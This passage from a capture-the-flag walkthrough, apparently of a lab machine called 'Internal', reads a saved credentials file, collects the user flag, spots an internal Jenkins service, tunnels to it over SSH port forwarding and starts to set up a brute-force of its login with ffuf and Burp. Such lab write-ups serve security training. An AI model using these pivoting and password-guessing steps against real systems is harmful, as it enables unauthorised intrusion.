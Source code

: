 ```bash
ls
containerd  wp-save.txt
```

Let's check out the content of **wp-save.txt**

```bash
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
```

This file contains the password for the aubreanna user.  
We can use it to log in and get the user flag.

```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
```

In aubreanna's home we find another interesting file, **jenkins.txt**, let's check it out.

```bash
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

We just found an internal service! Given its IP is probably a service running in a Docker container.
We can confirm the service existence running netstat

```bash
netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
....
```

The first step to exploit the service is to expose it, at least to our local machine. We can do so with local port forwarding using SSH, thanks to aubreanna's credentials.
Run the following command on your attacking machine.

```bash
ssh -L 8001:localhost:8080 aubreanna@10.10.18.173
```

We have basically created a tunnel that forwards traffic from our local port 8001 to the remote service port 8080. Therefore the service is now accessible from our localhost on port 8001.
We access _localhost:8001_ on our browser and get the Jenkins login.  
The common default credentials wont work, so we will try to brute-force it.  
At first I tried with hydra, like we did earlier, but for some reason it was painfully, unreasonably slow, like 0.5 request/minute slow.  
I don't know if it has something to do with the SSH tunnel or with Jenkins itself.  
Anyway, after some searching online, I decided to turn to another tool: **ffuf**, a very powerful and fast fuzzing tool.  
In order to use ffuf we need to capture a login request, we can do so using Burp Suite.  
Once that is done, we create a file containing the request.

